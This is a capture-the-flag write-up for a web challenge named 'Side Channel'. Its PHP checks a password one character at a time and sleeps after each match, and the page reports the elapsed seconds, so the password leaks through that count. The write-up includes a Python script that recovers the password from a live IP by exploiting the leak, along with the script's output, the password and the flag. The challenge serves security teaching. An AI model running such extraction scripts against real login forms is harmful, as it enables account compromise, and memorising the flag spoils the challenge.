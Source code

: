 # Challenge Name: Side Channel


![date](https://img.shields.io/badge/date-14.03.2022-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg)       
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-35-blue.svg)  

## Description

Created By **m4rc0s**

Now, some interesting bugs …

Every so often, you can find some bugs in the logic of the code, and occasionally, you can use time to extract the password.

**Code**

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

> Don't try brute-force

> You can solve the challenge manually or by using a script

> You can search Side Channel Attacks

http://18.132.195.71

[Acces to WebSite](http://18.132.195.71/)

## Detailed solution

Looking at the code we can see a for loop analyzing our input to compare it with password elements. 

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

- if we test a wrong charactere the page will return "you waited **0** seconds" 
  
![image](https://user-images.githubusercontent.com/72421091/158093241-993539d9-0216-4830-94a6-97161d45d961.png)

- if we have only one charactere right the page will return "you waited **1** seconds"

![image](https://user-images.githubusercontent.com/72421091/158093294-2b5d36de-301a-4906-b3ec-6ed2443a6658.png)

- after each charactere we found, the page will return you waited **X** seconds" with X equal to the size of our right input until the last charactere wich will return the **$FLAG**  

I created a python script to find the characters used in the password one by one. The funny thing i didn't now whats wrong for days until i realize that i forgot to add the test for flag test cas :disappointed_relieved:

```python
import requests, string
from requests.structures import CaseInsensitiveDict

url = "http://18.132.195.71/"

headers = CaseInsensitiveDict()

headers["Connection"] = "keep-alive"
headers["Cache-Control"] = "max-age=0"
headers["Upgrade-Insecure-Requests"] = "1"
headers["Origin"] = "http://18.132.195.71"
headers["Content-Type"] = "application/x-www-form-urlencoded"
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"
headers["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
headers["Referer"] = "http://18.132.195.71/"
headers["Accept-Language"] = "en-US,en;q=0.9,ar;q=0.8,fr;q=0.7"

t = 1
flag = ""

while(True):    
    for s in string.printable:
        tit = flag + s
        data = F"password={tit}"
        resp = requests.post(url, headers=headers, data=data)
        page = resp.content.decode("utf-8")
        if page.find(F"{t} seconds") != -1:
            flag += s
            print(flag)
            t = t+1
            break
        elif s == string.printable[-1]:
            print("Not found")
            exit()
        elif page.find("CRISIS{") != -1:
            flag += s
            print(F"the password is {flag}")
            print(page)
            exit()
```

Output

```
w
we
web
webs
webse
the password is websec
<html>
    <head>
       <meta charset="utf-8">
        <link rel="stylesheet" href="style.css" media="screen" type="text/css" />
    </head>
    <body>
        <div id="container">            
            <form action="" method="POST">
                <h3 class="text-center">Insert your Password</h3>
                
                <input type="text" placeholder="Enter the password" id=password name="password" required>

                <input type="submit" value="Submit">
            
            </form>
        </div>
    </body>
</html>

CRISIS{1c93286e3}
```
![image](https://user-images.githubusercontent.com/72421091/158093187-e2639b55-1627-41e5-8c81-5b031b395dc5.png)

## Flag

## Flag

```
CRISIS{1c93286e3}
```


